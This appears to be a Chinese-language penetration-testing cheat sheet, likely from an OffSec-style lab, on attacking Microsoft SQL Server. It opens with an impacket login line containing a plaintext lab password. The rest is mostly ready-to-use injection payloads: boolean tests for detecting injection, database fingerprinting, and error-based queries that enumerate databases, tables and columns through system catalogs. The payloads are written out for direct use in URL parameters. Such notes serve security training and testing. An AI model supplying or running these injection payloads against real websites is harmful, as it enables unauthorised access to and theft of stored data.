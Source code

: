 * `impacket-mssqlclient Adminestrator:Lab123@192.168.2.100 -windows-auth`
  这将强制进行NTLM身份验证(与Kerberos相反)


## Sqlserver 注入挖掘
### （1）查看数据库版本
* `select @@version;`
### （2）查看所有数据库
* `select name from sys.databases;`
### （3）查看所有表
* `select * from offsec.information_schema.tables;`
### （4）查看用户
* `select * from offsec.dbo.users;`
### （5）判断是否有注入
* 在页面url中含有？id=数字，后接上一下语句判断
```
and 1=1 页面返回正常
and 1=2 页面返回错误
/ 页面返回错误
-0 页面返回正常
满足以上注入语句，可以判断含有sql注入
```
### （6）判断数据库
* `and （select count（\*） from sysobjects）>0` 注入后页面返回正常，则是 sqlserver 数据库
* `and （select count（\*） from msysobjects）>0` 注入后页面返回正常，则是 access 数据库



## SqlServer显错注入
### （1）探测漏洞信息
* `id=1 and 1=(select @@version)` 数据库版本
* `id=1 and 1=(select db_name())` 当前使用的数据库
### （2）列数据库名称
* 获取第一个用户数据库名，dbid为数据库在sqlserver中的id，一般前4个为系统自带的数据库
  `and 1=(select top 1 name from master..sysdatabases where dbid>4) `
  当列出第一个数据库名后可以 
  `and 1=(select top 1 name from master..sysdatabases where dbid>4 and name <> 'test') `
* 列出除去查出来的数据库名
  列出所有数据库名
  `and 1=(select name from master..databases for xml path) `
### （3）列表名
* 获取第一张表
  `id=1 and 1=(select top 1 name from sysobjects where xtype='u') `
* 获取第二张表
  `id=1 and 1=(select top 1 name from sysobjects where xtype='U' and name <> '之前查过的表名')`
* 列出所有表名
  `id=1 and 1=(select name from sysobjects where xtype='u' for xml path) `
### （4）列表的列名(假设获取users列名)
* 获取第一列列名
  `id=1 and 1=(select top 1 name from syscolumns where id=(select id from sysobjects where name='users'))`
* 获取第二列列名
  `id=1 and 1=(select top 1 name from syscolumns where id=(select id from sysobjects where name='users') and name <> '之前查过的列名')`
* 列出所有列名
  `id=1 and 1=(select top 1 name from syscolumns where id=(select id from sysobjects where name='users') for xml path) `
